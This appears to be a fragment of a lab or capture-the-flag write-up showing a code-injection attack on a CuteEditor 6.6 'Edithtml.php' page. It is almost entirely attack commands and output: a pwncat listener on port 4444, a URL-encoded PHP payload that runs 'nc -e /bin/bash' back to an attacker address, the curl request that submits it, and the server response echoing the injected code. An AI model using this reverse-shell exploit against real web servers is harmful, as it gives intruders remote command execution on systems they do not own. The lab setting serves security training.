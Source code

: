 ```http
						This example demonstrates you can use Cute Editor to edit static html page. 
						<br />
						<br />
					</div>
					<br />
           <!-- CuteEditor Version 6.6 Editor1 Begin --> 
<textarea name='Editor1' id='Editor1' rows='13' cols='50' class='CuteEditorTextArea' style='DISPLAY: none; WIDTH: 100%; HEIGHT: 100%'>            &lt;?php echo &quot;TEST&quot; ?&gt; ←
</textarea>

[...]
```

`pwncat-cs -lp 4444`:
```
[13:13:13] Welcome to pwncat 🐈!
bound to 0.0.0.0:4444 ←
```

```
cmd='<?php system("nc -e /bin/bash 192.168.56.118 4444") ?>'; \
encoded_cmd=$(printf %s "$cmd" | jq -s -R -r @uri); \
echo $encoded_cmd
```
```
%3C%3Fphp%20system%28%22nc%20-e%20%2Fbin%2Fbash%20192.168.56.118%204444%22%29%20%3F%3E
```

`curl -s "http://192.168.56.140/Edithtml.php?postback=true" -d 'Editor1=%3C%3Fphp%20system%28%22nc%20-e%20%2Fbin%2Fbash%20192.168.56.118%204444%22%29%20%3F%3E&Editor1ClientState=&Save.x=6&Save.y=6&textbox1='`:
```html
<html>
    <head>
                <title>Edit Static Html Example -- PHP Content Management, PHP WYSIWYG, PHP HTML Editor, PHP Text Editor</title>
                 <link rel="stylesheet" href="php.css" type="text/css" />
        </head>
    <body>
        <form name="theForm" action="Edithtml.php?postback=true" method="post">
                                        <h1>Edit Static Html</h1>
                                        <div>
                                                This example demonstrates you can use Cute Editor to edit static html page. 
                                                <br />
                                                <br />
                                        </div>
                                        <br />
          <textarea name="Editor1" id='Editor1'  rows="13" cols="50" style="width: 780; height: 320" ID="Editor1">&lt;?php system(&quot;nc -e /bin/bash 192.168.56.118 4444&quot;) ?&gt;</textarea>                <textarea name="textbox1" rows="2" cols="20" id="textbox1" style="font-family:Arial;height:250px;width:730px;">
<?php system("nc -e /bin/bash 192.168.56.118 4444") ?>            </textarea> ←
                </form>
        </body>
</html>
```
